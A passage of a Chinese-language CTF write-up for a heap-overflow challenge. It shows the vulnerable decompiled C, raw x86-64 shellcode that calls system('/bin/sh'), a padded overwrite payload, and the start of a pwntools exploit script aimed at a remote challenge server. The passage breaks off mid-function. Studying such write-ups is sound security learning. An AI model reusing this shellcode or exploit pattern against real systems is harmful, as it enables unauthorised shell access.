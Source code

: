 ```c
  if ( cheat_buf )
  {
    puts("content:");
    getstr((char *)(cheat_buf + 16), 300LL);//overflow!!
  }
  else
  {
    cheat_buf = (__int64)malloc_adjust(48);
    puts("name:");
    getstr((char *)cheat_buf, 16LL);
    puts("content:");
    getstr((char *)(cheat_buf + 16), 32LL);
  }
}
```
300，够影响到status了，事实上，如果动态跟的话，我们会发现status的地址就在cheat_buf+0x98处（如果按照我都步骤做的话）。。。
然后就是构造payload了。。。
```python
paddings = 0x98
shellcode = "\x48\x8b\x1c\x25\x70\x50\x60\x00\x48\x81\xeb\xa0\xed\x03\x00\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\xff\xd3\x90\x90\x90"
payload = 'A'*8 + shellcode + 'A' * (paddings - 8 - len(shellcode)) + p64(0x605098)
```
前面8个'A'是因为_exit的实际会跳转到cheat_buf+8处执行，动态跟一下就知道了，然后说说最后的那个0x605098，反正只要满载p->location不在范围内就好，我随便找的一个.data的地址，这个好像是mmap_initial?不记得了，哪个都一样。。。
shellcode基本上就是获取malloc函数地址，计算system地址，push (QWORD)"/bin/sh\\x00"(刚好是8字节，哈哈)，mov rdi,rsp, call system (伪代码，伪代码，请勿当真)
所以最后exp

```python
from pwn import *
g_local = False
if g_local:
	sh=process("./pwn")
else:
	sh=remote("123.206.22.95",8888)

#pre: in the initial begin status
#post: same as above
def signup(szUsername, szPassword, szCharname):
	global sh
	sh.send("2\n")
	sh.recvuntil("input your username\n")
	sh.send(szUsername + '\n')
	sh.recvuntil("input your password\n")
	sh.send(szPassword + '\n')
	sh.recvuntil("input your character's name\n")
	sh.send(szCharname + '\n')
	sh.recvuntil("2.Signup\n==============================\n")

#pre: in the initial begin status, usernamepasword correct
#post: game begin status
def login(szUsername, szPassword):
	global sh
	sh.send("1\n")
	sh.recvuntil("Input your username:\n")
	sh.send(szUsername + '\n')
	sh.recvuntil("Input your password:\n")
	sh.send(szPassword + '\n')
	sh.recvuntil("0.exit\n")

#pre: game begin status
#post: wo shuo shell ni xin bu?
def cheat_set_payload(szPayload):
```